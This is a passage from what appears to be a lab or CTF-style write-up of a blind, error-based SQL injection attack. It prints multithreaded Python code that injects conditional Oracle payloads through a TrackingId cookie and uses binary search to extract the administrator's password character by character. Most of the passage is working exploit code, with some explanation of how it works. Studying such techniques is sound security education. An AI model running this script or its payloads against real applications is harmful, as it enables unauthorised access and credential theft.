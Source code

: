           for j in thread_list:    
            j.join()

          print("[-] Password:", "".join(password))          
        ```
        
        The requests.Session object is created and assigned to sn, then a for loop starts from 1-20. As in each iteration of the loop, a new thread object (t) is created and then starts the thread. Each thread calls the function sen_req with parameters (sn, i {position of the password character to search}, tracking_id, session_id). Then each started thread is also stored in thread_list to further check that all the threads execution has been done using thread.join() method.
        
        <br>
    - **Binary Search method:** Each thread calls a function send_req, and 4 parameters pass in this function (sn, i, tracking_id, session_id).
        ```
        # Send request using binary method
        def send_req(sn, i, tracking_id, session_id): 

          left_p = 0
          right_p = len(ascii_val) - 1
          
          # Element not found will never happens, and loop breaks when character matches
          while True:
            mid = (left_p + right_p) // 2

            # Equal check, always match on mid
            payload = "'||(SELECT CASE WHEN  ASCII(SUBSTR(password,%d,1))=%d THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" % (i, ascii_val[mid])

            payload = urllib.parse.quote_plus(payload)

            k_cookie = {"TrackingId": tracking_id + payload, "session": session_id}
            r = sn.get(k_url, cookies=k_cookie, proxies=proxy_urls, verify=False)
            
            if r.status_code == 500:
              password[i] = chr(ascii_val[mid])
              break

            # Only check one condition, i am checking < less
            payload = "'||(SELECT CASE WHEN  ASCII(SUBSTR(password,%d,1))<%d THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" % (i, ascii_val[mid])

            payload = urllib.parse.quote_plus(payload)

            k_cookie = {"TrackingId": tracking_id + payload, "session": session_id}
            r = sn.get(k_url, cookies=k_cookie, proxies=proxy_urls, verify=False)
                       
            # left and right pointers update
            if r.status_code == 500:
              right_p = mid - 1
            else:
              left_p = mid + 1
        ```
        